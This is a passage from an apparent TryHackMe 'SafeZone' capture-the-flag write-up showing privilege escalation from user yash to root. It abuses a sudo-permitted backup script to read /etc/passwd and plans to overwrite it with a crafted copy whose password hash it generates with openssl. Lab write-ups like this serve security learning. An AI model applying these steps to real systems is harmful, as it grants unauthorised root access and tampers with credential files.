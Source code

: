 Boom! I'm user `yash`!

**flag.txt:**
```
yash@safezone:/opt$ cat /home/yash/flag.txt 
THM{Redacted}
```

### yash to root

**Sudo permission:**
```
yash@safezone:/opt$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

**We can run `/usr/bin/python3 /root/bk.py` as root without password!**
```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /etc/passwd
Enter destination: /tmp/passwd.bak
Enter Password: anything
```

```
yash@safezone:/opt$ ls -lah /tmp
[...]
-rw-r--r--  1 root  root  1.7K Dec 30 14:08 passwd.bak
```

```
yash@safezone:/opt$ cat /tmp/passwd.bak  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
```

Got ya, I see your trick.

**This `bk.py` is basically copying file to a new place.**

**Now, what if I copy a malicious `passwd` file, and then override the original `/etc/passwd`?**

- Generate `passwd`'s password hash:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# openssl passwd password
$1$TBtvdgJG$guxWNCxXjIE4ATrmP2pIE1
```
